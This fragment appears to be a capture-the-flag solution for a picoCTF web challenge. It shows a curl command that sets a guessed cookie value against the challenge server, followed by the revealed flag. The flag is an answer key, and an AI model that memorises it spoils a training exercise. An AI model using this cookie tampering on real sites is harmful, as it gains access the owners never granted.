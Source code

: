 curl --cookie "name=18" http://mercury.picoctf.net:17781/check
flag = picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}
